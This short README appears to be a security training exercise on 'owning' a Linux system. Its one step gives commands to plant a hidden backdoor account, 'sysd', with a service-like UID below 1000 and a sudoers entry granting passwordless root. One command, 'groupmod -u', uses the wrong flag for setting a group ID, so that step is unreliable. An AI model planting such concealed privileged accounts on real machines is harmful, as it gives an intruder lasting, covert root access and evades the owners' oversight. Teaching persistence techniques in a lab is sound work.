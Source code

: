 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL

![see photo](/images/Picture2.png)  